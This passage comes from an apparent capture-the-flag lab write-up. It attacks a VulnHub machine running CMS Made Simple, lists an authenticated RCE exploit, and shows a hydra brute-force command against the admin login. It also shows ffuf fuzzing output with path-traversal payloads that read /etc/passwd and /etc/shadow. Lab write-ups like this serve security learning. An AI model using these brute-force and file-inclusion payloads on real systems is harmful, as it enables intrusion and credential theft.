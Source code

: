	| Exploit Title                                | Pat                   |
	| -------------------------------------------- | --------------------- |
	| CMS Made Simple 2.2.15 - RCE (Authenticated) | php/webapps/49345.txt | 

	- Requires authentication
4. Tried to bruteforce `/admin.php`, failed
	```
	┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
	└─# hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" -V
	```
5. Fuzz for LFI vulnerability at `test.php?`
	```
	┌──(root💀kali)-[/usr/share/wordlists]
	└─# ffuf -u http://$ip/test.php?W1=W2 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:W1 -w /usr/share/wordlists/LFI/file_inclusion_linux.txt:W2  -fw 3

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.20/test.php?W1=W2
	 :: Wordlist         : W1: /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt
	 :: Wordlist         : W2: /usr/share/wordlists/LFI/file_inclusion_linux.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 3
	________________________________________________

	[Status: 200, Size: 0, Words: 1, Lines: 1]
		* W1: file
		* W2: %00../../../../../../etc/passwd

	[Status: 200, Size: 0, Words: 1, Lines: 1]
		* W2: %00../../../../../../etc/shadow
		* W1: file

	[Status: 200, Size: 0, Words: 1, Lines: 1]
		* W1: file
		* W2: %00/etc/passwd%00

	[Status: 200, Size: 0, Words: 1, Lines: 1]
		* W1: file
		* W2: %00/etc/shadow%00
